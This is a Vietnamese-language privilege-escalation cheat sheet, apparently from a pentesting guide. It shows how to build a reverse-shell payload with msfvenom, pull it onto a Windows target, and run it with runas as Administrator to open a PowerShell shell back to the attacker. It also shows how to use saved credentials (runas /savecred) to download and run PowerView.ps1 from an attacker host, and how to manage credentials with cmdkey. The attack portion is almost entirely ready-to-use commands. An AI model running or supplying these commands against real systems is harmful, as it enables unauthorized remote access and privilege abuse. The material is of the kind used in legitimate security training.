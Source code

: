 #### Chuẩn bị payload hoặc mã khai thác

Tạo payload reverse shell để sử dụng với `runas`:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f exe -o nc.exe
```

Ghi chú: Thay `<IP>` và `<port>` bằng IP và cổng attacker. Đảm bảo kiến trúc payload khớp hệ thống (x64 cho 64-bit).

Tải payload lên thư mục tạm trên mục tiêu:

```
iwr -Uri http://<IP>/nc.exe -OutFile C:\Temp\nc.exe
```

Ghi chú: Đảm bảo máy chủ HTTP chạy trên `<IP>`. Kiểm tra quyền ghi trên `C:\Temp` trước.

#### Áp dụng khai thác

Sử dụng `runas` để thực thi payload với thông tin xác thực quản trị:

```
runas /env /profile /user:Administrator "nc.exe -e powershell <IP> <port>"
```

Ghi chú: Thay `<IP>` và `<port>` bằng IP và cổng attacker. Đảm bảo listener chạy trước.

Sử dụng `runas /savecred` để thực thi lệnh PowerShell với thông tin xác thực đã lưu:

{% code overflow="wrap" %}

```
runas /user:ACCESS\\Administrator /savecred "powershell -c IEX (New-Object Net.Webclient).downloadstring('http://<IP>/PowerView.ps1')"
```

{% endcode %}

Ghi chú: Thay `<IP>` bằng IP attacker. Đảm bảo PowerView\.ps1 được lưu trữ trên máy chủ HTTP.

Thêm thông tin xác thực mới để sử dụng với `runas /savecred`:

```
cmdkey /add:MyServer /user:MyUser /pass:MyPassword
```

Output mong đợi: Thông tin xác thực được thêm, ví dụ: `Successfully added credential for MyServer`

Xóa thông tin xác thực để ngăn truy cập trái phép:

```
cmdkey /delete:MyServer
```

Output mong đợi: Thông tin xác thực bị xóa, ví dụ: `Credential deleted for MyServer`

Xóa thông tin xác thực tương tác của tài khoản cụ thể:

```
cmdkey /delete:Domain:interactive=WORKGROUP\\Administrator
```
